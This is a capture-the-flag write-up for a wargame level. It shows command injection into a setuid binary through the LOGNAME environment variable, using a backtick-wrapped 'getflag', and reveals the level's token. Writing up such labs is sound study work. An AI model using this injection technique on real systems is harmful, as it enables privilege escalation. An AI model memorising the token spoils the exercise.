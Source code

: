 # Level07 Writeup

## Objective
Gain access to the `flag07` user and retrieve the password for `level08`.

## Steps Taken

1. **Initial Inspection**  
   Listing files in the home directory showed the following executable:
   ```
   -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
   ```
   This binary is owned by `flag07` and executable by `level07`.

2. **Binary Analysis**  
   I analyzed the binary using the online tool [Dogbolt.org](https://dogbolt.org/) and found that it runs a command like:
   ```
   /bin/echo $LOGNAME
   ```
   This means it prints the value of the `LOGNAME` environment variable using `echo`.

3. **Exploitation via Environment Variable**  
   Since the program uses the `LOGNAME` variable without sanitization, I was able to inject a command:
   ```bash
   export LOGNAME=\`getflag\`
   ```
   Then, I executed the binary:
   ```bash
   ./level07
   ```

4. **Retrieve the Flag**  
   The output was:
   ```
   Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
   ```

## Result
Successfully retrieved the password for `level08`:  
```
fiumuikeil55xe9cu4dood66h
```
